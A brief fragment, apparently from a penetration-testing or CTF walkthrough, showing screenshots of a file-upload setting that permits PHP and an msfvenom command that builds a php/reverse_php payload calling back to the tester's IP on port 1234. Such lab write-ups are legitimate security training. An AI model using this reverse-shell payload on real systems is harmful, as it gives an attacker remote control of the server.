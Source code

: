 <figure><img src="../../../.gitbook/assets/allowedfiletypes.png" alt="" width="375"><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/addphp.png" alt=""><figcaption></figcaption></figure>

Create a reverse php file :&#x20;

```
msfvenom -p php/reverse_php LHOST=<YOUR_IP> LPORT=1234 > shell.php
```

<figure><img src="../../../.gitbook/assets/msfvenom.png" alt=""><figcaption></figcaption></figure>
